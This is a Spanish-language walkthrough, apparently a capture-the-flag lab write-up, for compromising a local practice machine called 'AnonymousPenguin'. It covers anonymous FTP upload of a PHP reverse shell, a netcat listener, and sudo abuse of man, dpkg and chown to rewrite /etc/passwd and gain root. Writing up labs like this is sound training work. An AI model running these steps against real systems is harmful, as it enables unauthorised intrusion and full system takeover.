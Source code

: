 Maquina: AnonymousPenguin

Autor: El Pinguino de Mario

Dificultad: Facil

![Captura de pantalla 2024-11-17 173629](https://github.com/user-attachments/assets/bb3832f7-8436-4ad9-86a6-dfeae131209d)

ping 172.17.0.2 -c 1

![Captura de pantalla 2024-11-17 174935](https://github.com/user-attachments/assets/1a1cef1d-d84a-4a08-920a-ede040545c47)

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2

Vemos que esta abierto el puerto 21 FTP y el puerto 80 HTTP

![Captura de pantalla 2024-11-17 174954](https://github.com/user-attachments/assets/10d3cc6a-f8c6-40f5-b1d7-d772867f388d)

Si accedemos a la pagina web vemos esto

![Captura de pantalla 2024-11-17 175019](https://github.com/user-attachments/assets/bfa86771-bcca-424e-b529-9c17c99f6f9a)

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

![Captura de pantalla 2024-11-17 175048](https://github.com/user-attachments/assets/75f31781-4e80-4297-9fe8-e4e1bc2473d9)

Vemos que hay un directorio upload pero no hay nada dentro vamos a intentar subir desde el ftp una reverse shell a la carpeta upload y asi conseguir acceso

ftp 172.17.0.2

Accedemos como anonymous sin contraseña

![Captura de pantalla 2024-11-17 175332](https://github.com/user-attachments/assets/fc0e815f-d347-48d2-bd28-a80437e354aa)

dir

![Captura de pantalla 2024-11-17 175342](https://github.com/user-attachments/assets/5fa08e40-b356-4bbf-8c0c-a34959a8e5fb)

En el directorio web también aparace upload

En este directorio vamos a subir un php reverse shell

https://www.revshells.com/

(PHP PentestMonkey, bash, IP y Port)

![Captura de pantalla 2024-11-17 182611](https://github.com/user-attachments/assets/ceaa9204-68e0-4017-8c31-bbdab6fe633a)

copiamos, creamos un file reverseshell.php y pegamos

![Captura de pantalla 2024-11-17 180122](https://github.com/user-attachments/assets/953e467d-5600-4aaa-b9b5-fc19217764b6)

Entramos al directorio upload y subimos el archivo php creado

cd upload

put reverseshell.php

![Captura de pantalla 2024-11-17 180711](https://github.com/user-attachments/assets/810b7915-fbae-49e3-8c77-8a1f9060c0a6)

Nos ponemos en escucha con Netcat

nc -lvnp 443

![Captura de pantalla 2024-11-17 180801](https://github.com/user-attachments/assets/11982bc5-8df1-47fa-a32b-068a189362ab)

http://172.17.0.2/upload/reverseshell.php

![Captura de pantalla 2024-11-17 182247](https://github.com/user-attachments/assets/ea3dd30f-89a3-4591-9e56-8701c09ffdcd)

Tenemos acceso

![Captura de pantalla 2024-11-17 182258](https://github.com/user-attachments/assets/ec0a446a-3dfb-4632-bdb3-48c52fdbfb03)

Tratamiento TTY

script /dev/null -c bash

cntrl + c

![Captura de pantalla 2024-11-17 184322](https://github.com/user-attachments/assets/7b5c4726-964e-4b21-9136-457546bb2335)

stty raw -echo; fg  

reset xterm 

export SHELL=bash

export TERM=xterm

stty size

stty rows 24 columns 80

![Captura de pantalla 2024-11-17 184751](https://github.com/user-attachments/assets/81fba1b2-9690-4b1c-9f39-ed0d71de283e)

Miramos que permisos tiene data

sudo -l 

vemos que podemos ejecutar man como Pingu

![Captura de pantalla 2024-11-17 182826](https://github.com/user-attachments/assets/5ec3b28b-bfb8-490f-a30b-581c317c7f27)

sudo -u pingu /usr/bin/man man

!/bin/sh
whoami

![Captura de pantalla 2024-11-17 185046](https://github.com/user-attachments/assets/89eb8c97-227a-4e19-a17d-547821bb279c)

sudo -l 

vemos que podemos ejecutar nmap y dpkg como el usuario gladys

![Captura de pantalla 2024-11-17 185103](https://github.com/user-attachments/assets/b7eb5949-6174-4dd4-bc04-722732c7c7b6)

sudo -u gladys /usr/bin/dpkg -l

!/bin/sh
whoami

![Captura de pantalla 2024-11-17 185202](https://github.com/user-attachments/assets/bec5f284-c935-4196-b600-72d4ab3b8f96)

sudo -l 
vemos que podemos ejecutar chown como root

![Captura de pantalla 2024-11-17 185224](https://github.com/user-attachments/assets/ded1c9b3-718b-4108-8eaf-556c7e4a2af4)

cambiamos el propietario de /etc/passwd

sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd

Con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp

sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp

copiamos el tmp donde esta el original para que lo sobreescriba

cp /tmp/passwd.tmp /etc/passwd

su root

whoami

![Captura de pantalla 2024-11-17 185337](https://github.com/user-attachments/assets/fb79d802-338e-4cb2-a084-f177e73cc087)


